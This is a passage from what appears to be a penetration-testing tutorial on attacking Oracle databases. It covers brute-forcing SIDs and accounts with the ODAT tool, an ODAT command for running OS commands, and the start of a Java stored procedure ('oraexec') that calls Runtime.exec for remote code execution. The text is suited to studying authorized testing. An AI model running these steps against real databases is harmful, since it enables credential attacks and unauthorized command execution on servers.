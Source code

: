 With these options (-s and -p), ODAT will search valid SID (System ID) in a first step. You can configure some options for configuring methods (i.e. word-list or brute-force attack). By default, ODAT will use a big word list and it will do a small brute-force attack.
If ODAT founds at least one SID (e.g. ORCL), it will search valid Oracle accounts. It will do that on each SID found. You can specify some options for credentials (e.g. --accounts-file, --accounts-files, --login-as-pwd).
For each valid account (e.g. SYS) on each valid instance (SID), ODAT will return what each Oracle user can do (e.g. reverse shell, read files, become DBA).
Wiki odat
Remote Code Execution
There are at least two different ways to execute commands, such as by using Java procedures and DBMS_SCHEDULER package. By the way, you can also achieve RCE in case of SQL injection in a web application provided, of course, that the user running it has sufficient rights. At this stage, I highly recommend preparing the Oracle Database Attacking Tool: ODAT.
Install ODAT
1
2
3
	git clone https://github.com/quentinhardy/odat.git
cd odat
./odat.py #It shouldn't be problems in Kali

Execute Code via Java Stored Procedure
1
	./odat.py java -s <IP> -U <username> -P <password> -d <SID> --exec COMMAND

RCE: Java Store Procedure
So, imagine that you have the administrator account information. In this case, a very popular way to execute your command on the server is to write a ‘java stored’ procedure. This is done in three stages. First, create a Java class called ‘oraexec’. To do this, connect via ‘sqlplus’ terminal and write:
1
2
3
4
5
6
7
8
9
10
11
	create or replace and resolve java source named "oraexec" as
import java.lang.*;
import java.io.*;
  public class oraexec
  {
    public static void execCommand(String command) throws IOException
    {
      Runtime.getRuntime().exec(command);
    }
  }
/

